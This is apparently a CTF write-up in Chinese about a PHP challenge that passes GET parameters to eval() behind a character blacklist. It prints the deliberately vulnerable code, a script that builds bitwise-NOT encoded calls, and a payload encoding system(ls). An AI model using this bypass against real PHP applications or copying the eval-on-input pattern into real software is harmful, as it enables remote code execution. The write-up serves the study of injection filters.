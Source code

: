 ```php
<?php

highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
} 
```

把`-  *  ^  "`

取反绕过。

取反脚本：

```php
<?php
//在命令行中运行

/*author yu22x*/

fwrite(STDOUT,'[+]your function: ');

$system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 

fwrite(STDOUT,'[+]your command: ');

$command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 

echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';

```



构造`system(ls)`

```
(~%8C%86%8C%8B%9A%92)(~%93%8C)
```

但是不知道如何使它执行，那么fuzz一波。

[![syv4kF.md.png](https://s3.ax1x.com/2021/01/18/syv4kF.md.png)](https://imgchr.com/i/syv4kF)
